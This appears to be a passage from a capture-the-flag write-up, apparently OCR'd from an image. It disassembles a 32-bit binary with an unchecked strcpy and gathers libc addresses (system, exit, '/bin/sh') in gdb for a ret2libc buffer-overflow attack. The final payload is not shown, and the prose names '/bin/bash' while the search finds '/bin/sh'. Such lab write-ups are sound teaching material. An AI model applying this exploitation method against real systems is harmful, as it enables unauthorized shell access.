 ```asm
(gdb) disas main
Dump of assembler code for function main:
   0x080483f4 <+0>:     push   %ebp
   0x080483f5 <+1>:     mov    %esp,%ebp
   0x080483f7 <+3>:     and    $0xfffffff0,%esp
   0x080483fa <+6>:     sub    $0x90,%esp
   0x08048400 <+12>:    cmpl   $0x1,0x8(%ebp)
   0x08048404 <+16>:    jg     0x804840d <main+25>
   0x08048406 <+18>:    mov    $0x1,%eax
   0x0804840b <+23>:    jmp    0x8048436 <main+66>
   0x0804840d <+25>:    mov    0xc(%ebp),%eax
   0x08048410 <+28>:    add    $0x4,%eax
   0x08048413 <+31>:    mov    (%eax),%eax
   0x08048415 <+33>:    mov    %eax,0x4(%esp)
   0x08048419 <+37>:    lea    0x10(%esp),%eax
   0x0804841d <+41>:    mov    %eax,(%esp)
   0x08048420 <+44>:    call   0x8048300 <strcpy@plt>
   0x08048425 <+49>:    lea    0x10(%esp),%eax
   0x08048429 <+53>:    mov    %eax,(%esp)
   0x0804842c <+56>:    call   0x8048310 <puts@plt>
   0x08048431 <+61>:    mov    $0x0,%eax
   0x08048436 <+66>:    leave  
   0x08048437 <+67>:    ret    
End of assembler dump.
(gdb) 
```

### Exploiting the Binary with ret2libc

The binary `exploit_me` is vulnerable to a **buffer overflow** in its use of `strcpy` without checking the size of the input. The goal is to exploit this overflow to perform a **ret2libc attack**, which involves hijacking the return address to execute the `system` function in libc, passing `/bin/bash` as an argument.

Finding the necessary addresses in libc:
```bash
(gdb) info proc map
process 1894
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/zaz/exploit_me
         0x8049000  0x804a000     0x1000        0x0 /home/zaz/exploit_me
        0xb7e2b000 0xb7e2c000     0x1000        0x0 
        0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
        0xb7fd2000 0xb7fd5000     0x3000        0x0 
        0xb7fdb000 0xb7fdd000     0x2000        0x0 
        0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
        0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
        0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
        0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
        0xbffdf000 0xc0000000    0x21000        0x0 [stack]

(gdb) find 0xb7e2c000,0xb7fdd000,"/bin/sh"
0xb7f8cc58 -> /x58/xcc/xf8/xb7

(gdb) info function system
0xb7e6b060  system -> /x60/xb0/xe6/xb7

(gdb) info function exit
0xb7e5ebe0  exit -> /xe0/xeb/xe5/xb7
```